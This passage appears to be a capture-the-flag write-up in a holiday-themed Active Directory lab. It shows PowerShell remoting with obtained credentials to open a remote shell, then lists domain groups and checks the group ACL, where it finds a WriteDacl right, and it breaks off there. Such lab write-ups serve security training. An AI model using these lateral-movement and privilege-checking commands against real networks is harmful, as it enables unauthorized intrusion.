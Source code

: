 ## Pivoting

A bit of googling for powershell remoting gives us this microsoft doc on [running remote commands](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/running-remote-commands?view=powershell-7.2). If we want a shell, we just need to swap out `Invoke-Command` for `Enter-PSSession` and delete a flag.

Let's create a new script for ourselves to give us a remote shell as that user.

```bash
cp GetProcessInfo.ps1 ~\Get_Remote_Session.ps1
```

We'll change the last line of the new `Get_Remote_Session.ps1` file to this:
```powershell                                                                                                   
Enter-PSSession -ComputerName 10.128.1.53 -Credential $aCred -Authentication Negotiate 
```

Despite this box being a linux box, it does have powershell on it, so we can just use that to run this script cleanly:
```bash
powershell
./Get_Remote_Session.ps1
```

And this drops us into a shell as the `remote_elf` user on the 10.128.1.53 box!

## Getting Access to the Right Group
Let's see a list of all of the AD groups in the domain:

```powershell
Get-ADGroup -filter *
```

This outputs a long list, but this group jumps out at me:

```
DistinguishedName : CN=Research Department,CN=Users,DC=elfu,DC=local
GroupCategory     : Security
GroupScope        : Global
Name              : Research Department
ObjectClass       : group
ObjectGUID        : 8dd5ece3-bdc8-4d02-9356-df01fb0e5f3d
SamAccountName    : ResearchDepartment
SID               : S-1-5-21-2037236562-2033616742-1485113978-1108
```
(reminder that our goal in this challenge is to "Obtain the secret sleigh research document...")

Do we have any privileges to edit that group? Let's check using the code from the talk in the hints.

```powershell
$ADSI = [ADSI]"LDAP://CN=Research Department,CN=Users,DC=elfu,DC=local"
$ADSI.psbase.ObjectSecurity.GetAccessRules($true,$true,[Security.Principal.NTAccount])
```

Looking through the output, we can see that we have access to the `WriteDacl` permission:
